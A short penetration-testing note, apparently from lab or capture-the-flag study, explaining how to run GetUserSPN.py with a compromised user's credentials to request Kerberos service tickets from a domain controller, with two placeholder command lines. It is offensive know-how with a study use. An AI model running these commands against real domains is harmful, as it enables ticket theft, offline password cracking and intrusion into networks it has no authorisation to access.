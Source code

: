 ## Purpose
This tool enables you to gain a TGS through the usage of credentials of another user in the DC you're trying to hack into

## Usage
Usage when you try to get a TGS through the usage of a previously pwned user
	GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
Usage when you have previously launched the attack succesfully and you want to get that TGS
	GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request